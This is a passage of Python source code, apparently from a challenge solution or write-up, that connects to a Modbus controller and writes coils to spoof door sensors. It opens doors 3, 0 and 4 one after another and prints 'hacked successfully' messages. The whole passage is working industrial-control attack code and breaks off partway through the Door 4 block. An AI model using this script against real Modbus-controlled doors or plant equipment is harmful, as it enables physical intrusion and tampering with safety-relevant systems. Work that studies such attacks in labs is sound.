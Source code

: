 ```python



client = ModbusClient(host, port, unit_id=1, auto_open=True)


client.write_single_coil(602, True)


######### DOOR 3

print('[!] Door 3 hacking in progress...')

client.write_single_coil(sens11, False)
client.write_single_coil(sens13, True)
client.write_single_coil(sens12, True)
client.write_single_coil(sens10, True)

sleep(6)

print(f"\t[+]Door 3 hacked successfully!")

client.write_single_coil(sens11, True)
client.write_single_coil(sens13, False)
client.write_single_coil(sens12, False)
client.write_single_coil(sens10, False)

sleep(6)

#########

######### DOOR 0

print('[!] Door 0 hacking in progress...')

client.write_single_coil(sens2, False)
client.write_single_coil(sens0, True)
client.write_single_coil(sens1, True)
client.write_single_coil(sens4, True)

sleep(9)

print(f"\t[+]Door 0 hacked successfully!")

client.write_single_coil(sens2, True)
client.write_single_coil(sens0, False)
client.write_single_coil(sens1, False)
client.write_single_coil(sens4, False)

sleep(9)

#######


###### DOOR 4

print('[!] Door 4 hacking in progress...')

client.write_single_coil(sens10, True)
client.write_single_coil(sens14, True)
client.write_single_coil(sens13, True)
client.write_single_coil(sens12, True)

```